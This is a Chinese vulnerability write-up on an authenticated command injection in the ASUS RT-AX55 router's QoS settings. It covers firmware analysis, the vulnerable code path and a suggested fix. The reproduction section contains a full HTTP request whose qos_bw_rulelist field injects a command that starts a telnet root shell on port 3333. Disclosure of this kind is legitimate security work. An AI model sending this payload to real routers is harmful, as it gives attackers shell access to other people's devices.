







# 0x01  漏洞描述 #

`asus RT-AX55` 路由器存在身份验证后的命令注入漏洞。

# 0x02  固件分析 #

固件下载：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
直接binwalk用-Me提取即可

# 0x03  代码分析 #

分析`sbin/rc`二进制文件，在函数`FUN_0001e168`中，从http请求参数`action_script`获取`restart_qos`值，进而进入函数`FUN_0006fbcc`。

在函数`FUN_0006fbcc`中，当nvram的`qos_enable`为1且`qos_type`为2时，调用`FUN_0006cc04`函数。

进入函数`FUN_0006cc04`，先打开一个`/tmp/qos`的shell脚本，从nvram中获得`qos_bw_rulelist`的值，把`qos_bw_rulelist`的值以">"切割5个子字符串，然后将其第3个字符串的值，即`local_22c`变量，写进`/tmp/qos`的shell脚本，最后调用`_eval`函数执行`/tmp/qos`的shell脚本的start函数。

# 0x04  漏洞复现 #

request:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 428
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/QoS_EZQoS.asp
    Cookie: clickedItem_tab=1; asus_token=b63QlsWOpMozaPKRPxR8iTB9SdVzKNK; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    preferred_lang=CN&firmver=3.0.0.4&current_page=QoS_EZQoS.asp&next_page=QoS_EZQoS.asp&group_id=&action_mode=apply&action_script=restart_qos%3Brestart_firewall%3B&action_wait=15&flag=&TM_EULA=1&qos_enable=1&qos_enable_orig=1&qos_type_orig=2&qos_type=2&qos_bw_rulelist=1%3EA0%3A29%3A19%3A17%3A70%3A32%3E`telnetd%20-l%20/bin/sh%20-p%203333`%3E5120%3E0&qos_type_radio=2&bw_setting_name=on&obw=0.00&ibw=0.00&obw1=&ibw1=&PC_devicename=
    

# 0x05  漏洞修复 #

过滤`qos_bw_rulelist`的中  `反引号 ; | & $` 和 `换行符` 字符。